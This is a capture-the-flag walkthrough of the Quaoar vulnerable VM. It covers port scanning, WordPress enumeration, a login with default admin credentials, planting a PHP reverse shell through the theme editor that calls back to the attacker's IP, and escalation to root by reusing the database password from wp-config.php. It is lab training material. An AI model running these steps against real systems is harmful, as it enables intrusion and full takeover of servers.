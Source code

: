 # ctf-Quaorar
Opening with NMAP :
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 5.9p1 Debian 5ubuntu1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 d0:0a:61:d5:d0:3a:38:c2:67:c3:c3:42:8f:ae:ab:e5 (DSA)
|   2048 bc:e0:3b:ef:97:99:9a:8b:9e:96:cf:02:cd:f1:5e:dc (RSA)
|_  256 8c:73:46:83:98:8f:0d:f7:f5:c8:e4:58:68:0f:80:75 (ECDSA)
53/tcp  open  domain      ISC BIND 9.8.1-P1
| dns-nsid: 
|_  bind.version: 9.8.1-P1
80/tcp  open  http        Apache httpd 2.2.22 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_Hackers
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
110/tcp open  pop3?
139/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
143/tcp open  imap        Dovecot imapd
445/tcp open  netbios-ssn Samba smbd 3.X (workgroup: WORKGROUP)
993/tcp open  ssl/imap    Dovecot imapd
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
|_ssl-date: 2017-10-16T05:14:13+00:00; 0s from scanner time.
995/tcp open  ssl/pop3s?
| ssl-cert: Subject: commonName=ubuntu/organizationName=Dovecot mail server
| Not valid before: 2016-10-07T04:32:43
|_Not valid after:  2026-10-07T04:32:43
MAC Address: 08:00:27:77:97:F9 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.5
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

and one dirb //dirb http://192.168.1.96/   /home/boax/Téléchargements/common.txt


Entering directory: http://192.168.1.96/wordpress/ ----
==> DIRECTORY: http://192.168.1.96/wordpress/index/                            
+ http://192.168.1.96/wordpress/index.php (CODE:301|SIZE:0)                    
+ http://192.168.1.96/wordpress/license (CODE:200|SIZE:19930)                  
+ http://192.168.1.96/wordpress/readme (CODE:200|SIZE:7195)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-admin/                         
+ http://192.168.1.96/wordpress/wp-blog-header (CODE:200|SIZE:0)               
+ http://192.168.1.96/wordpress/wp-config (CODE:200|SIZE:0)                    
==> DIRECTORY: http://192.168.1.96/wordpress/wp-content/                       
+ http://192.168.1.96/wordpress/wp-cron (CODE:200|SIZE:0)                      
==> DIRECTORY: http://192.168.1.96/wordpress/wp-includes/                      
+ http://192.168.1.96/wordpress/wp-links-opml (CODE:200|SIZE:217)              
+ http://192.168.1.96/wordpress/wp-load (CODE:200|SIZE:0)                      
+ http://192.168.1.96/wordpress/wp-login (CODE:200|SIZE:2530)                  
+ http://192.168.1.96/wordpress/wp-mail (CODE:500|SIZE:3011)                   
+ http://192.168.1.96/wordpress/wp-settings (CODE:500|SIZE:0)                  
+ http://192.168.1.96/wordpress/wp-signup (CODE:302|SIZE:0)                    
+ http://192.168.1.96/wordpress/wp-trackback (CODE:200|SIZE:135)               
+ http://192.168.1.96/wordpress/xmlrpc (CODE:200|SIZE:42)                      
+ http://192.168.1.96/wordpress/xmlrpc.php (CODE:200|SIZE:42)     


Site builded with wordpress !

wpscan attack /

ruby wpscan.rb -u http://192.168.1.96/wordpress --enumerate u
_______________________________________________________________
        __          _______   _____                  
        \ \        / /  __ \ / ____|                 
         \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
          \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \ 
           \  /\  /  | |     ____) | (__| (_| | | | |
            \/  \/   |_|    |_____/ \___|\__,_|_| |_|

        WordPress Security Scanner by the WPScan Team 
                       Version 2.9.4-dev
          Sponsored by Sucuri - https://sucuri.net
      @_WPScan_, @ethicalhack3r, @erwan_lr, @_FireFart_
_______________________________________________________________

[+] URL: http://192.168.1.96/wordpress/
[+] Started: Thu Oct 19 20:14:14 2017

[+] Enumerating usernames ...
[+] Identified the following 2 user/s:
    +----+--------+--------+
    | Id | Login  | Name   |
    +----+--------+--------+
    | 1  | admin  | admin  |
    | 2  | wpuser | wpuser |
    +----+--------+--------+
 
 Log on http://192.168.1.96/wordpress/wp-login.php?loggedout=true
with admin/admin .

Then , on the dashboard , on Apparence / Editor / Header , we can put a reverseShell  ( http://pentestmonkey.net/tools/web-shells/php-reverse-shell ) . Set up with ur IP and with for example the port 4444 open .

So listen on 4444 :
which python
/usr/bin/python
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@Quaoar:/$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@Quaoar:/$ ls -lat
ls -lat
total 85
drwxr-xr-x  15 root root  4000 Oct 19  2017 dev
drwxr-xr-x 117 root root  4096 Oct 19  2017 etc
drwxr-xr-x  13 root root     0 Oct 19  2017 sys
drwxrwxrwt   3 root root  4096 Oct 19 14:23 tmp
drwxr-xr-x  24 root root   780 Oct 19 14:12 run
dr-xr-xr-x 107 root root     0 Oct 19 14:12 proc
drwxr-xr-x  13 root root  4096 Jan 15  2017 var
drwx------   6 root root  4096 Nov 30  2016 root
drwxr-xr-x   4 root root  1024 Oct 28  2016 boot
drwxr-xr-x   2 root root  4096 Oct 28  2016 sbin
drwxr-xr-x   3 root root  4096 Oct 24  2016 home
drwxr-xr-x  22 root root  4096 Oct  7  2016 .
drwxr-xr-x  22 root root  4096 Oct  7  2016 ..
-rw-------   1 root root  1024 Oct  7  2016 .rnd
drwxr-xr-x  21 root root  4096 Oct  7  2016 lib
drwxr-xr-x   2 root root  4096 Oct  7  2016 bin
lrwxrwxrwx   1 root root    33 Oct  7  2016 vmlinuz -> boot/vmlinuz-3.2.0-23-generic-pae
lrwxrwxrwx   1 root root    37 Oct  7  2016 initrd.img -> /boot/initrd.img-3.2.0-23-generic-pae
drwxr-xr-x   3 root root  4096 Oct  7  2016 media
drwxr-xr-x  10 root root  4096 Oct  7  2016 usr
drwxr-xr-x   2 root root  4096 Oct  7  2016 opt
drwxr-xr-x   2 root root  4096 Oct  7  2016 srv
drwx------   2 root root 16384 Oct  7  2016 lost+found
drwxr-xr-x   2 root root  4096 Apr 19  2012 mnt
drwxr-xr-x   2 root root  4096 Mar  5  2012 selinux

further ...

cd home
www-data@Quaoar:/home$ ls
ls
wpadmin
www-data@Quaoar:/home$ cd wpadmin
cd wpadmin
www-data@Quaoar:/home/wpadmin$ ls
ls
flag.txt
www-data@Quaoar:/home/wpadmin$ cat flag.txt
cat flag.txt
2bafe61f03117ac66a73c3c514de796e

The flag1 !!!

So , lets go on :

cd var
www-data@Quaoar:/var$ ls
ls
backups  cache	crash  lib  local  lock  log  mail  opt  run  spool  tmp  www
www-data@Quaoar:/var$ cd www
cd www
www-data@Quaoar:/var/www$ ls
ls
CHANGELOG			hack-planet-high-definition-mobile.jpg
COPYING				hacker-manifesto-ethical.jpg
Hack_The_Planet.jpg		hacking.jpg
Hack_The_Planet2.jpg		hsperfdata_tomcat6
Hack_The_Planet3.jpg		index.html
INSTALL				pososibo-ethical-hacking-hack-fond.jpg
LICENSE				robots.txt
Quaoar.jpg			tomcat6-tomcat6-tmp
README.md			upload
hack-planet-1280-amox-zone.jpg	wordpress
www-data@Quaoar:/var/www$ cd wordpress 
cd wordpress
www-data@Quaoar:/var/www/wordpress$ ls
ls
index.php	 wp-blog-header.php    wp-cron.php	  wp-mail.php
license.txt	 wp-comments-post.php  wp-includes	  wp-settings.php
readme.html	 wp-config-sample.php  wp-links-opml.php  wp-signup.php
wp-activate.php  wp-config.php	       wp-load.php	  wp-trackback.php
wp-admin	 wp-content	       wp-login.php	  xmlrpc.php

and cat wp-config.php
cat wp-config.php
<?php
/**
 * The base configurations of the WordPress.
 *
 * This file has the following configurations: MySQL settings, Table Prefix,
 * Secret Keys, WordPress Language, and ABSPATH. You can find more information
 * by visiting {@link http://codex.wordpress.org/Editing_wp-config.php Editing
 * wp-config.php} Codex page. You can get the MySQL settings from your web host.
 *
 * This file is used by the wp-config.php creation script during the
 * installation. You don't have to use the web site, you can just copy this file
 * to "wp-config.php" and fill in the values.
 *
 * @package WordPress
 */

// ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'rootpassword!');

give credentials for ssh connection (root / rootpassword! ) :


ssh root@192.168.1.96
The authenticity of host '192.168.1.96 (192.168.1.23)' can't be established.
ECDSA key fingerprint is SHA256:+ODdJgfptUyyVzKI9wDm804SlXxzmb4/BiKsHCnHGeg.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '192.168.1.23' (ECDSA) to the list of known hosts.
root@192.168.1.23's password: 
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic-pae i686)

 * Documentation:  https://help.ubuntu.com/

  System information as of Thu Oct 19 14:36:35 EDT 2017

  System load:  0.0               Processes:             102
  Usage of /:   29.8% of 7.21GB   Users logged in:       0
  Memory usage: 55%               IP address for eth0:   192.168.1.23
  Swap usage:   0%                IP address for virbr0: 192.168.122.1

  Graph this data and manage this system at https://landscape.canonical.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Sun Jan 15 11:23:45 2017 from desktop-g0lhb7o.snolet.com
root@Quaoar:~# id
uid=0(root) gid=0(root) groups=0(root)

and :ls -lat
total 48
-rw-------  1 root root  368 Jan 15  2017 .bash_history
drwx------  6 root root 4096 Nov 30  2016 .
-rw-------  1 root root 4740 Nov 30  2016 .viminfo
drwx------  2 root root 4096 Oct 26  2016 .ssh
----------  1 root root   33 Oct 22  2016 flag.txt
drwx------  2 root root 4096 Oct 15  2016 .cache
drwxr-xr-x 22 root root 4096 Oct  7  2016 ..
drwx------  2 root root 4096 Oct  7  2016 .aptitude
drwxr-xr-x  8 root root 4096 Jan 29  2015 vmware-tools-distrib
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
-rw-r--r--  1 root root  140 Apr 19  2012 .profile

the last flag :

cat flag.txt   

the flag2 :e3f9ec016e3598c5eec11fd3d73f6fb


TY ! 










